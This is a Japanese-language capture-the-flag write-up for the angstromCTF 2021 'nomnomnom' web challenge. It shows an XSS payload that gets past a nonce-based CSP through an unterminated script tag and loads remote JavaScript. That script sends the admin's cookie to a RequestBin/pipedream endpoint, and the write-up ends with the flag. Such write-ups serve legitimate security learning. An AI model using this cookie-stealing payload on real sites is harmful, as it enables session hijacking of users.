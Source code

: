 # nomnomnom:Web:130pts
I've made a new game that is sure to make all the Venture Capitalists want to invest! Care to try it out?  
[NOM NOM NOM (the game)](https://nomnomnom.2021.chall.actf.co/)  
[source](deploy.zip)  
Hint  
Can you [beat my score](https://nomnomnom.2021.chall.actf.co/shares/hint)?

# Solution
アクセスするとゲームが置いてある。  
どうやらスコアをシェアできるようだ。  
snek nomnomnom  
[site1.png](site/site1.png)  
どう考えてもXSS問である。  
以下のように名前でXSSができるが、CSPがあるためブロックされる。  
```html
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-4e93f214cc76bd6c734ede0f3f86ccc0'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of 1! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <script>alert(1)</script>
		<script nonce='4e93f214cc76bd6c734ede0f3f86ccc0'>
function report() {
	fetch('/report/a903395ddf2d621d', {
		method: 'POST'
	})
}

document.getElementById('reporter').onclick = () => { report() }
		</script> 
		
	</body>
</html>
```
名前挿入箇所の後ろにこれ見よがしにnonceが書かれている。  
以下のようにscriptタグを入れ込むとnonceを取り込むことができる。  
jsのアップロードは[TextBin](https://textbin.net/)を用いた。  
```html
<script src="https://textbin.net/raw/o4tst0cpr6" dummy=\
```
```JavaScript
location.href = 'https://enf7ula6130xw.x.pipedream.net/?cookie=' + document.cookie;
// https://enf7ula6130xw.x.pipedream.net/ <- RequestBin.com
```
結果は次のようになる。  
```html
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-c339418395e04e47d23911f610a5e86e'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of 1! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <script src="https://textbin.net/raw/o4tst0cpr6" dummy=\
		<script nonce='c339418395e04e47d23911f610a5e86e'>
function report() {
	fetch('/report/444c9aa519fbcc84', {
		method: 'POST'
	})
}

document.getElementById('reporter').onclick = () => { report() }
		</script> 
		
	</body>
</html>
```
即座にリダイレクトしてしまうため、読み込みを中断してコンソールより以下を実行する。  
curlでPOSTしてもよい。  
```JavaScript
fetch('/report/933aca6a5e744751', {
	method: 'POST'
})
```
すると以下のcookieが手に入る。  
```
no_this_is_not_the_challenge_go_away=b737f9727c292ab8071ea8f6fd49fc85d15afc26d5557740bed750ab44b2ef94f0fd7509afe74bb5bffbeb52c99c81aadafa7923e0bb83799236cef429c3e4f6
```
何やら書いてあるが、無視して自身のcookieに設定する。  
ゲームをクリアするとflagが書かれていた。  
flag  
[flag.png](site/flag.png)  

## actf{w0ah_the_t4g_n0mm3d_th1ng5}